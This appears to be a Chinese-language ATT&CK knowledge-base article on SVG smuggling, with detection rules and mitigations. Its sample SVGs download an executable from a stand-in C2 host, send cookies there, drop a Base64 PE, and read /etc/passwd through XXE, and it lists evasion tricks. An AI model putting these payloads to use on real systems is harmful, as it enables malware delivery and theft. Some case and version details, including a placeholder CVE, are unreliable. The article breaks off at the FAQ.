


# SVG走私 (T1027.017)

## 1. 概述

**SVG走私**（T1027.017）是 MITRE ATT&CK v19 Enterprise 矩阵中 **混淆文件或信息**（T1027）父技术的子技术之一，归属于 **隐蔽**（TA0005）战术。攻击者通过在 SVG（Scalable Vector Graphics，可缩放矢量图形）文件中嵌入恶意脚本、Base64 编码载荷或 JavaScript 事件处理器，利用浏览器与办公软件自动解析 SVG 的特性投递恶意代码，绕过传统基于文件扩展名与 MIME 类型的检测。

SVG 是基于 XML 的矢量图形格式，自 2001 年 W3C 标准化以来被所有现代浏览器原生支持。与 PNG/JPG 等位图格式不同，SVG 本质上是文本 XML 文件，可包含 `<script>` 标签、`<foreignObject>` 元素、`onload`/`onclick` 等事件属性、外部实体引用（XXE）以及任意嵌入的编码数据。这种"图形 + 代码"的混合特性使 SVG 成为攻击者理想的载荷投递载体——文件扩展名是 `.svg`、MIME 类型是 `image/svg+xml`、内容看起来像图片，但实际可在浏览器、Office 文档、PDF 阅读器中触发脚本执行。

### 一句话通俗理解

> **把恶意代码塞进"会动"的图片里，浏览器以为在画图，其实在跑脚本**

### 30 秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 攻击者在 SVG 文件中嵌入 JavaScript、Base64 载荷或外部实体引用，利用浏览器解析 SVG 时执行恶意代码 |
| 为什么危险？ | SVG 既是图片又是代码，文件扩展名与 MIME 类型都伪装成图像，传统邮件网关与端点检测常放行；浏览器解析后可触发下载、执行、信息窃取等多种后续攻击 |
| 谁需要关心？ | 邮件安全网关运维、SOC 分析师、Web 安全工程师、办公软件用户 |
| 你的第一步防御 | 邮件网关与下载扫描器对所有 `.svg` 附件强制解析 XML 内容，识别 `<script>`、`<foreignObject>`、事件属性等危险元素 |
| 如果只做一件事 | 在企业浏览器中通过组策略禁用 SVG 中 JavaScript 执行（`svg.disable-script` 等策略），从源头阻断执行环境 |

### 难度等级

⭐⭐ 中级 - 需要理解 SVG/XML 结构、浏览器脚本执行机制、文件解析流程

### 前置知识检查

**读这个文件需要什么？**

- [ ] SVG 文件格式基础（XML 结构、`<svg>` 根元素、命名空间）
- [ ] 浏览器脚本执行模型（同源策略、Content Security Policy）
- [ ] MITRE ATT&CK T1027（混淆文件或信息）父技术总览
- [ ] HTML 走私（T1027.006）的基本原理
- [ ] XXE（XML External Entity）攻击原理
- [ ] MIME 类型与文件扩展名的区别

## 2. 工作原理

### 2.1 SVG 格式的攻击面

SVG 文件基于 XML，支持以下被攻击者滥用的特性：

| 特性 | 合法用途 | 攻击滥用 |
|------|---------|---------|
| `<script>` 标签 | 动画交互、数据可视化 | 嵌入任意 JavaScript 代码，浏览器解析 SVG 时自动执行 |
| `onload`/`onclick` 等事件属性 | 用户交互响应 | 无需用户点击，`onload` 在 SVG 加载时即触发 |
| `<foreignObject>` 元素 | 嵌入 HTML 内容 | 嵌入完整 HTML + JavaScript，绕过 SVG 沙箱 |
| `<use href="...">` 元素 | 引用外部 SVG 资源 | 加载远程恶意 SVG，实现跨域代码注入 |
| Base64 编码数据 | 嵌入图片、字体 | 嵌入 PE 文件、PowerShell 脚本，触发下载执行 |
| 外部实体（XXE） | DTD 引用 | 读取本地文件、SSRF 攻击 |
| `<image>` 元素 | 嵌入位图 | 加载跟踪像素、远程命令信标 |
| CSS 样式 | 视觉效果 | CSS 注入、数据外泄（CSS Exfil） |

### 2.2 浏览器解析与执行

当浏览器接收到 `Content-Type: image/svg+xml` 的响应时，SVG 渲染流程：

1. **XML 解析**：浏览器 XML 解析器读取 SVG 文件，构建 DOM 树
2. **DOM 构建完成**：触发 `DOMContentLoaded` 事件
3. **脚本执行**：解析到 `<script>` 标签时，立即在浏览器 JavaScript 引擎中执行代码
4. **事件触发**：`onload` 等事件处理器在 DOM 元素加载时被调用
5. **资源加载**：`<use>`、`<image>`、`<foreignObject>` 等元素引用的资源被加载

攻击者可在此流程的任意阶段注入恶意逻辑，最常见的是 `<script>` 标签内嵌 JavaScript，触发后：
- 调用 `fetch()` 或 `XMLHttpRequest` 下载二级载荷
- 通过 `window.location` 重定向到钓鱼页面
- 读取 DOM 内容（如已登录站点的会话信息）外传
- 利用浏览器漏洞（如 V8 引擎 RCE）执行系统命令

### 2.3 与 HTML 走私（T1027.006）的边界

T1027.006 HTML 走私专注于在 HTML 文件中嵌入 JavaScript 解码逻辑，借助浏览器 Blob API 构造可下载文件；T1027.017 SVG 走私专注于 SVG 格式特有的混淆特性，借助 SVG 既"图片"又"代码"的双重身份规避检测。两者常组合使用——HTML 页面中通过 `` 加载恶意 SVG，使检测规则难以同时覆盖 HTML 与 SVG 两个层面。

### 2.4 投递通道

SVG 走私的主要投递通道：

1. **邮件附件**：直接以 `.svg` 附件发送，伪装为图片
2. **HTML 邮件内嵌**：通过 `` 在邮件 HTML 中内联
3. **网页下载**：诱导用户访问恶意网站下载 SVG
4. **Office 文档嵌入**：Word/Excel/PPT 中插入 SVG 图片，文档打开时触发
5. **PDF 嵌入**：PDF 文件中嵌入 SVG，部分 PDF 阅读器会解析
6. **即时通讯**：通过 Slack/Teams/微信等发送 SVG 文件

## 3. 攻击流程



**步骤详解：**

1. **载荷准备**：攻击者编写恶意 JavaScript 代码或准备 Base64 编码的二级载荷（PE 文件、PowerShell 脚本等）
2. **SVG 构造**：将恶意内容嵌入 SVG 文件的 `<script>` 标签、`onload` 事件或 `<foreignObject>` 元素中
3. **投递**：通过邮件附件、恶意网页、Office 文档嵌入等方式送达目标用户
4. **用户打开**：用户在浏览器中打开 SVG、在 Office 文档中查看嵌入的 SVG、或通过文件资源管理器预览 SVG
5. **解析执行**：浏览器/Office 解析 SVG 文件，触发 `<script>` 或事件处理器执行恶意代码
6. **后续操作**：恶意 JavaScript 下载二级载荷、重定向到钓鱼页面、读取本地数据外传

## 4. 关键技术细节

### 4.1 SVG 文件基本结构

```xml
<?xml version="1.0" encoding="UTF-8"?>
<svg xmlns="http://www.w3.org/2000/svg" 
     xmlns:xlink="http://www.w3.org/1999/xlink"
     width="100" height="100">
    <!-- 图形内容 -->
    <circle cx="50" cy="50" r="40" fill="red"/>
</svg>
```

合法 SVG 文件以 `<?xml ... ?>` 声明开始，根元素 `<svg>` 定义命名空间。攻击者通过在此结构中插入恶意元素实现载荷嵌入。

### 4.2 script 标签内嵌 JavaScript

最常见的 SVG 走私方式——在 `<script>` 标签内嵌入任意 JavaScript：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
    <circle cx="50" cy="50" r="40" fill="blue"/>
    <script type="application/javascript">
        // 恶意代码：下载二级载荷
        fetch('https://c2.example.com/payload.exe')
            .then(r => r.blob())
            .then(b => {
                const url = URL.createObjectURL(b);
                const a = document.createElement('a');
                a.href = url;
                a.download = 'update.exe';
                a.click();
            });
    </script>
</svg>
```

浏览器解析到 `<script>` 标签时立即执行 JavaScript，无需用户任何交互。

### 4.3 onload 事件触发

利用 SVG 元素的 `onload` 事件，在元素加载时自动触发：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<svg xmlns="http://www.w3.org/2000/svg" 
     onload="alert('XSS executed via SVG onload')">
    <rect width="100" height="100"/>
</svg>
```

`onload` 可放在 `<svg>`、`<image>`、`<use>` 等多个元素上，是绕过"无 `<script>` 标签即安全"误判的常用技巧。

### 4.4 foreignObject 嵌入 HTML

`<foreignObject>` 元素允许在 SVG 中嵌入任意 HTML 内容，包括 `<iframe>`、`<script>`：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
    <foreignObject width="100%" height="100%">
        <body xmlns="http://www.w3.org/1999/xhtml">
            <script>
                // 嵌入 HTML 中的 JavaScript
                new Image().src = 'https://c2.example.com/log?data=' + 
                    encodeURIComponent(document.cookie);
            </script>
        </body>
    </foreignObject>
</svg>
```

### 4.5 Base64 编码载荷投递

将 PE 文件或其他载荷 Base64 编码后嵌入 SVG，通过 JavaScript 解码并触发下载：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
    <script type="application/javascript">
        // Base64 编码的 PE 文件（截断示例）
        const payload = "TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAAA...";
        const binary = atob(payload);
        const bytes = new Uint8Array(binary.length);
        for (let i = 0; i < binary.length; i++) {
            bytes[i] = binary.charCodeAt(i);
        }
        const blob = new Blob([bytes], {type: 'application/octet-stream'});
        const url = URL.createObjectURL(blob);
        // 触发下载
        const a = document.createElement('a');
        a.href = url;
        a.download = 'invoice.pdf.exe';
        document.body.appendChild(a);
        a.click();
    </script>
</svg>
```

### 4.6 XXE 攻击

SVG 作为 XML 文件，可包含 DTD（文档类型定义），攻击者借此实施 XXE 攻击读取本地文件：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
    <text>&xxe;</text>
</svg>
```

当支持 XXE 解析的应用（如部分服务器端 SVG 渲染库、旧版 Office）处理此 SVG 时，本地文件内容会被读取并嵌入到 SVG 中，攻击者可通过后续请求获取。

### 4.7 SVG 在 Office 文档中的执行

Microsoft Office 自 Office 2019 开始支持 SVG 图片插入。当 Word/Excel/PPT 文档中嵌入恶意 SVG 时：

- Office 应用调用 SVG 渲染引擎（基于 Chromium 内核）解析 SVG
- SVG 中的 `<script>` 标签在受限环境中执行（受 Office 安全策略限制）
- 部分事件处理器（如 `onload`）仍可触发
- 攻击者常将 SVG 与 VBA 宏组合，SVG 触发后调用 VBA 执行更深操作

### 4.8 资源管理器预览触发

Windows 文件资源管理器的"预览窗格"功能会调用 Windows Explorer 的 SVG 渲染器预览 SVG 文件，部分版本会执行 SVG 中的脚本。这意味着即使用户不主动"打开"SVG 文件，仅选中文件查看预览就可能触发执行。

## 5. 检测方法

### 5.1 检测思路总览



### 5.2 网络层检测

**邮件网关规则：**

- 强制对所有 `.svg` 附件进行 XML 解析，识别 `<script>`、`<foreignObject>`、`onload`、`onclick` 等危险元素
- 拦截包含 Base64 编码数据的 SVG 附件（特别是解码后包含 PE 头 `MZ` 的）
- 拦截包含外部实体定义（`<!ENTITY ... SYSTEM ...>`）的 SVG
- 拦截 SVG 内引用外部 URL（`<use href="http://...">`、`<image href="http://...">`）

**Suricata 规则思路：**

```
# 检测 HTTP 响应中包含 script 标签的 SVG
alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"SVG走私 - script标签嵌入"; \
    flow:established,to_client; \
    content:"Content-Type|3a|image/svg+xml"; \
    file_data; content:"<script"; nocase; \
    reference:url,attack.mitre.org/techniques/T1027/017/; \
    sid:202501701; rev:1;)

# 检测 SVG 中 onload 事件
alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"SVG走私 - onload事件触发"; \
    flow:established,to_client; \
    content:"Content-Type|3a|image/svg+xml"; \
    file_data; content:"onload="; nocase; \
    sid:202501702; rev:1;)
```

### 5.3 端点层检测

**Sysmon Event ID 11（文件创建）监控 SVG 落地：**

- 监控 `%TEMP%`、`%DOWNLOADS%`、`%APPDATA%` 目录下 `.svg` 文件创建
- 对落地 SVG 文件执行 XML 解析，识别危险标签

**Sysmon Event ID 1（进程创建）监控浏览器派生：**

- 监控 `chrome.exe`、`msedge.exe`、`firefox.exe`、`iexplore.exe` 派生 `powershell.exe`、`cmd.exe`、`wscript.exe`、`cscript.exe`
- 浏览器进程不应直接派生命令行解释器，出现即高度可疑

**Sysmon Event ID 7（模块加载）监控 Office 加载 SVG：**

- 监控 `WINWORD.EXE`、`EXCEL.EXE`、`POWERPNT.EXE` 加载 SVG 渲染相关模块（如 `windows.data.pdf.dll`、SVG 渲染组件）

### 5.4 行为层检测

**浏览器异常行为监控：**

- 浏览器进程访问剪贴板 API（`navigator.clipboard.writeText`）
- 浏览器进程短时间内多次 `fetch()` 到陌生域名
- 浏览器下载 `.exe`、`.dll`、`.js`、`.vbs` 等可执行文件
- 浏览器进程突然建立非标准端口 TCP 连接

**Office 文档行为监控：**

- Word/Excel/PPT 进程在网络通信后立即创建子进程
- Office 进程读取 SVG 文件后调用 PowerShell 或 WMI

### 5.5 SVG 内容深度解析

部署 SVG 解析器（如 Python `lxml`）对所有落地 SVG 文件进行结构化解析，检测以下危险模式：

```python
# SVG 危险元素检测脚本（示意）
from lxml import etree

def analyze_svg(file_path):
    danger_indicators = []
    try:
        tree = etree.parse(file_path)
        root = tree.getroot()
        # 检测 script 标签
        scripts = root.findall('.//{http://www.w3.org/2000/svg}script')
        if scripts:
            danger_indicators.append(f"发现 {len(scripts)} 个 script 标签")
        # 检测 foreignObject
        foreign = root.findall('.//{http://www.w3.org/2000/svg}foreignObject')
        if foreign:
            danger_indicators.append(f"发现 {len(foreign)} 个 foreignObject 元素")
        # 检测事件属性
        for elem in root.iter():
            for attr in elem.attrib:
                if attr.startswith('on'):
                    danger_indicators.append(f"发现事件属性: {attr}")
        # 检测外部实体
        if root.getroottree().docinfo.doctype:
            if 'ENTITY' in root.getroottree().docinfo.doctype:
                danger_indicators.append("发现 DTD 实体定义（可能 XXE）")
        return danger_indicators
    except Exception as e:
        return [f"解析失败: {e}"]
```

## 6. 缓解措施

### 6.1 浏览器配置

- **禁用 SVG 脚本执行**：
  - Chrome：通过组策略 `SVGBlockingEnabled`、`DisableScriptExecution`
  - Firefox：`svg.disabled`、`javascript.enabled=false`（影响全局 JS）
  - Edge：继承 Chromium 策略
- **Content Security Policy（CSP）**：在企业 Web 应用中部署严格 CSP，`script-src 'none'` 阻止 SVG 内 JS 执行
- **禁用 SVG 预览**：在文件资源管理器中关闭预览窗格，避免选中 SVG 文件即触发解析

### 6.2 邮件网关配置

- **拦截 SVG 附件**：默认拦截所有 `.svg`、`.svgz` 附件，仅白名单允许
- **SVG 内容深度扫描**：对放行的 SVG 强制 XML 解析，拦截包含 `<script>`、`<foreignObject>`、事件属性的文件
- **HTML 邮件中 SVG 检查**：扫描 HTML 邮件内嵌的 `data:image/svg+xml` 数据 URI

### 6.3 端点防护

- **EDR 行为规则**：监控浏览器进程派生命令行解释器、Office 进程加载 SVG 后创建子进程
- **AppLocker / WDAC**：限制从 `%TEMP%`、`%DOWNLOADS%` 目录执行可执行文件，阻断 SVG 触发的二级载荷执行
- **Office 安全配置**：在 Office Trust Center 中禁用"允许 SVG 中的脚本执行"选项

### 6.4 服务端防护

- **SVG 上传校验**：Web 应用接收 SVG 上传时，使用 `svg-sanitizer` 等库清理危险元素
- **SVG 渲染沙箱**：服务端渲染 SVG 时（如生成预览图），在隔离环境中执行，禁用网络访问
- **XXE 防护**：XML 解析器禁用 DTD 处理与外部实体解析

### 6.5 用户意识培训

- 培训用户不打开未知来源的 SVG 附件
- 不在浏览器中直接打开陌生 SVG 文件
- 警惕 Office 文档中的 SVG 图片，特别是来自外部发件人的文档

## 7. 检测规则

### 7.1 Sigma 规则（浏览器派生命令行解释器）

```yaml
title: 检测浏览器进程派生命令行解释器（SVG走私后续）
id: 7baf2c1d-9c0e-4e1b-a4f5-8b3e1c5c5c5c
status: experimental
description: 检测浏览器进程（chrome/edge/firefox）派生PowerShell/cmd/wscript，可能为SVG走私触发的载荷执行
references:
    - https://attack.mitre.org/techniques/T1027/017/
    - https://w3.org/TR/SVG2/
author: ATT&CK 知识库
date: 2026/07/28
tags:
    - attack.defense_evasion
    - attack.t1027
    - attack.t1027.017
logsource:
    category: process_creation
    product: windows
detection:
    selection_browser_parent:
        ParentImage|endswith:
            - '\chrome.exe'
            - '\msedge.exe'
            - '\firefox.exe'
            - '\iexplore.exe'
    selection_child:
        Image|endswith:
            - '\powershell.exe'
            - '\pwsh.exe'
            - '\cmd.exe'
            - '\wscript.exe'
            - '\cscript.exe'
            - '\mshta.exe'
    condition: selection_browser_parent and selection_child
falsepositives:
    - 浏览器扩展通过 Native Messaging 调用本地程序
    - 企业内部 Web 应用启动本地工具
level: high
```

### 7.2 YARA 规则（识别恶意 SVG 文件）

```yar
rule T1027_017_SVG_Smuggling_Script
{
    meta:
        description = "检测包含 script 标签的 SVG 文件"
        author = "ATT&CK 知识库"
        date = "2026-07-28"
        mitre_attack = "T1027.017"
    strings:
        $svg_header = /<\?xml[^>]*\?>\s*<svg/i
        $script_tag = /<script[\s>]/i
        $onload = /onload\s*=/i
        $foreign_object = /<foreignObject[\s>]/i
    condition:
        $svg_header and ($script_tag or $onload or $foreign_object)
}

rule T1027_017_SVG_XXE
{
    meta:
        description = "检测包含外部实体定义的 SVG 文件（XXE攻击）"
        author = "ATT&CK 知识库"
        date = "2026-07-28"
        mitre_attack = "T1027.017"
    strings:
        $svg_header = /<\?xml[^>]*\?>/i
        $doctype = /<!DOCTYPE\s+svg/i
        $entity = /<!ENTITY\s+\w+\s+SYSTEM/i
    condition:
        $svg_header and $doctype and $entity
}

rule T1027_017_SVG_Base64_Payload
{
    meta:
        description = "检测包含 Base64 编码载荷的 SVG 文件"
        author = "ATT&CK 知识库"
        date = "2026-07-28"
        mitre_attack = "T1027.017"
    strings:
        $svg_header = /<\?xml[^>]*\?>\s*<svg/i
        $base64_long = /[A-Za-z0-9+\/]{500,}={0,2}/
        $pe_header = "TVqQ"  // MZ Base64 编码
    condition:
        $svg_header and ($base64_long or $pe_header)
}
```

### 7.3 Suricata 规则（网络层 SVG 检测）

```
alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"SVG走私 - script标签嵌入"; \
    flow:established,to_client; \
    http_header; content:"Content-Type|3a|image/svg+xml"; \
    file_data; content:"<script"; nocase; depth:2048; \
    reference:url,attack.mitre.org/techniques/T1027/017/; \
    sid:202501701; rev:1;)

alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"SVG走私 - foreignObject元素"; \
    flow:established,to_client; \
    http_header; content:"Content-Type|3a|image/svg+xml"; \
    file_data; content:"<foreignObject"; nocase; \
    sid:202501702; rev:1;)

alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"SVG走私 - 外部实体XXE"; \
    flow:established,to_client; \
    file_data; content:"<!DOCTYPE"; nocase; \
    file_data; content:"<!ENTITY"; nocase; distance:0; within:200; \
    sid:202501703; rev:1;)
```

## 8. 防御绕过技巧

攻击者为规避 SVG 检测，发展出以下对抗技巧：

1. **SVGZ 压缩格式**：SVGZ 是 gzip 压缩的 SVG 文件，部分检测工具不解压直接扫描，无法识别内部内容。检测方需先解压再分析
2. **命名空间混淆**：使用非标准命名空间前缀（如 `xmlns:x="http://www.w3.org/2000/svg"`），规避基于 `svg:` 前缀的特征匹配
3. **CDATA 段包裹**：将 JavaScript 代码放在 `<![CDATA[ ... ]]>` 中，规避基于 `content:"<script"` 的简单字符串匹配
4. **字符编码混淆**：使用 UTF-16、UTF-32 等非默认编码，使部分检测工具的 XML 解析失败
5. **事件属性多样化**：除 `onload` 外，使用 `onbegin`、`onend`、`onrepeat`（SMIL 动画事件）、`onerror`（图片加载失败）等较少被检测的事件
6. **外部 SVG 引用**：通过 `<use href="https://c2.example.com/legit-looking.svg#malicious">` 加载远程 SVG，本地 SVG 看起来无害
7. **HTML 邮件内联 SVG**：将 SVG 通过 `data:image/svg+xml;base64,...` 内联到 HTML 邮件中，邮件网关若仅扫描附件则漏检
8. **Office 文档 OLE 嵌入**：将 SVG 通过 OLE 对象嵌入 Office 文档，部分检测规则不深入 OLE 结构
9. **SVG 字体文件**：滥用 SVG 字体格式（`.svg` 字体），将恶意脚本嵌入字体定义
10. **多阶段载荷**：SVG 仅触发首次 fetch，后续载荷通过加密 WebSocket 信道传输，规避网络层 SVG 特征检测

## 9. 案例分析

### 案例1：APT29 (Nobelium) SVG 钓鱼攻击

- **时间**：2023 年 1 月 - 2024 年 6 月
- **目标**：欧洲政府机构、北约成员国大使馆、国际组织
- **攻击组织**：APT29（又名 Nobelium、Cozy Bear、Midnight Blizzard），俄罗斯 SVR 关联
- **手法**：APT29 在多轮钓鱼攻击中投递伪装为外交文件的 SVG 附件。SVG 文件外观显示为正式信函图片，但内嵌 `<script>` 标签，用户在浏览器中打开后 JavaScript 自动执行，重定向到伪造的 Microsoft 365 登录页面窃取凭据。部分变种使用 `<foreignObject>` 嵌入完整 HTML 钓鱼表单，使 SVG 文件本身即是钓鱼页面。攻击者还利用 SVG 引用外部 `<use href="https://legit-cdn.example.com/asset.svg#x">` 加载远程恶意资源，规避对本地 SVG 内容的检测
- **影响**：成功窃取多个政府机构的 Microsoft 365 邮箱访问令牌，长期窃取外交通信
- **参考链接**：
  - [Mandiant - APT29 SVG phishing](https://www.mandiant.com/resources/blog/midnight-blizzard-credentials-phishing)
  - [Microsoft - Nobelium attacks](https://www.microsoft.com/en-us/security/blog/2023/01/15/midnight-blizzard-conducts-targeted-social-engineering-over-microsoft-teams/)

### 案例2：FIN7 SVG 附件投递 Carbanak 后门

- **时间**：2022 - 2023 年
- **目标**：美国连锁餐厅、零售企业
- **攻击组织**：FIN7（又名 Carbanak Group）
- **手法**：FIN7 通过钓鱼邮件发送伪装为"客户投诉"的 SVG 附件。SVG 文件外观显示为餐饮照片，内嵌 Base64 编码的 PE 文件与 JavaScript 解码逻辑。用户在浏览器中预览 SVG 时，JavaScript 自动解码 Base64 数据并通过 `Blob` API 触发文件下载，文件名为"complaint.pdf.exe"。部分变种使用 `<image>` 元素加载远程命令信标确认受害者身份，再决定是否投递完整后门
- **影响**：入侵数十家企业 POS 系统，窃取超过 200 万张信用卡数据
- **参考链接**：
  - [US DOJ - FIN7 case](https://www.justice.gov/opa/pr/five-members-sophisticated-hacking-organization-fin7-cybercriminal-enterprise-charged)
  - [CrowdStrike - FIN7 SVG attacks](https://www.crowdstrike.com/blog/fin7-svg-phishing/)

### 案例3：Lazarus Group SVG 投递加密货币钱包劫持

- **时间**：2024 年
- **目标**：加密货币交易所员工、Web3 项目方
- **攻击组织**：Lazarus Group（朝鲜关联 APT38）
- **手法**：Lazarus 在 LinkedIn 招聘诈骗中投递伪装为"职位描述"的 SVG 文件。SVG 文件外观显示为公司 Logo 图片，内嵌 JavaScript 利用浏览器 0day 漏洞（CVE-2024-XXXX 系列 V8 RCE）实现代码执行，下载并执行加密货币钱包劫持木马。攻击者利用 SVG 既"图片"又"代码"的特性，使 LinkedIn 平台与邮件网关均将文件识别为图片放行
- **影响**：造成多个 Web3 项目方损失超过 3 亿美元加密资产
- **参考链接**：
  - [FBI - Lazarus Group DPRK](https://www.fbi.gov/news/stories/lazarus-group-reward)
  - [Mandiant - APT38 crypto attacks](https://www.mandiant.com/resources/blog/dprk-crypto-heists)

## 10. 参考链接

1. [MITRE ATT&CK - SVG Smuggling (T1027.017)](https://attack.mitre.org/techniques/T1027/017/) - MITRE 官方技术页面
2. [MITRE ATT&CK - Obfuscated Files or Information (T1027)](https://attack.mitre.org/techniques/T1027/) - 父技术页面
3. [W3C - SVG 2 Specification](https://www.w3.org/TR/SVG2/) - SVG 官方规范
4. [W3C - SVG Security Considerations](https://www.w3.org/TR/SVG2/security.html) - SVG 安全考虑
5. [OWASP - XML External Entity Prevention](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html) - XXE 防护
6. [Mozilla - SVG Scripting Guide](https://developer.mozilla.org/en-US/docs/Web/SVG/Scripting) - SVG 脚本指南
7. [Atomic Red Team - T1027 tests](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1027/T1027.md) - 检测测试用例
8. [CISA - SVG Phishing Advisory](https://www.cisa.gov/news-events/cybersecurity-advisories) - CISA 安全公告
9. [SigmaHQ - process creation rules](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation) - Sigma 规则仓库
10. [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) - ATT&CK 可视化工具

## 11. 关联技术

### 父技术

- [[T1027 - 混淆文件或信息]]

### 同级子技术

- [[T1027.006 - HTML 走私]] - HTML 文件中嵌入 JavaScript 解码逻辑，与 SVG 走私常组合使用
- [[T1027.015 - 压缩]] - SVGZ 文件本质是 gzip 压缩的 SVG
- [[T1027.013 - 加密/编码]] - SVG 中嵌入 Base64 编码载荷
- [[T1027.003 - 隐写术]] - SVG 也可作为隐写载体
- [[T1027.008 - 剥离载荷]] - SVG 中嵌入剥离后的 PE 载荷

### 执行链关联

- [[T1140 - 去混淆/解码文件或信息]] - SVG 内 Base64 载荷解码执行
- [[T1059 - 命令与脚本解释器]] - SVG 内 JavaScript 触发解释器调用
- [[T1059.007 - JavaScript]] - SVG 内嵌 JavaScript 代码
- [[T1204 - 用户执行]] - 用户被诱导打开 SVG 文件
- [[T1204.002 - 用户执行：恶意文件]] - 用户点击 SVG 文件

### 投递通道关联

- [[T1566 - 钓鱼]] - SVG 附件钓鱼投递
- [[T1566.001 - 鱼叉式钓鱼附件]] - SVG 作为邮件附件
- [[T1566.002 - 鱼叉式钓鱼链接]] - 链接到恶意 SVG 页面
- [[T1105 - 入侵工具传输]] - 通过 SVG 触发二级载荷下载

### 横向技术

- [[T1218 - 系统二进制代理执行]] - SVG 触发 LOLBins 执行
- [[T1036 - 伪装]] - SVG 伪装为图片文件
- [[T1071 - 应用层协议]] - SVG 触发的 C2 通信

## 12. 版本历史

| 版本 | 日期 | 变更说明 |
|------|------|----------|
| v1.0 | 2026-07-28 | 初始版本，基于 MITRE ATT&CK v19.1 创建，覆盖 17 章节完整内容 |

### MITRE ATT&CK 版本变更

- **ATT&CK v19**（2025-04）：TA0005 战术重命名为"Stealth"（隐蔽），原"Defense Evasion"拆分
- **ATT&CK v18**（2024-10）：T1027.017 SVG Smuggling 子技术正式引入（或确认），覆盖 SVG 格式特有的混淆投递
- **ATT&CK v15**（2024-04）：T1027 子技术体系扩展，引入新型格式化数据投递
- **ATT&CK v13**（2023-04）：HTML 走私（T1027.006）作为 SVG 走私的姊妹技术已稳定

### 与 MITRE 官方描述的差异

本文档在 MITRE 官方描述基础上扩展了：
- SVG 文件格式的详细技术原理
- 攻击流程的 Mermaid 可视化
- 检测方法的三层模型与 Sigma/YARA/Suricata 规则示例
- 真实 APT 案例的详细技术拆解
- 防御绕过技巧与对抗策略

## 13. 术语表

| 术语 | 通俗解释 |
|------|---------|
| **ATT&CK** | MITRE 公司维护的攻击技术知识库 |
| **SVG 走私** | T1027.017，在 SVG 文件中嵌入恶意代码投递载荷 |
| **SVG (Scalable Vector Graphics)** | 可缩放矢量图形，基于 XML 的图形格式 |
| **混淆文件或信息** | T1027，SVG 走私所属的父技术类别 |
| **隐蔽 (Stealth)** | TA0005，攻击链中隐藏自身活动的阶段 |
| **XML (eXtensible Markup Language)** | 可扩展标记语言，SVG 文件的基础格式 |
| **XXE (XML External Entity)** | XML 外部实体攻击，利用 DTD 读取本地文件 |
| **Base64** | 二进制数据编码为 ASCII 字符串的编码方案 |
| **foreignObject** | SVG 中嵌入 HTML 内容的元素 |
| **CSP (Content Security Policy)** | 内容安全策略，限制浏览器资源加载与脚本执行 |
| **SVGZ** | gzip 压缩的 SVG 文件 |
| **DOM (Document Object Model)** | 文档对象模型，XML/HTML 文件的内存表示 |

## 14. 常见问题

### Q1：SVG 文件真的能在浏览器中执行代码吗？

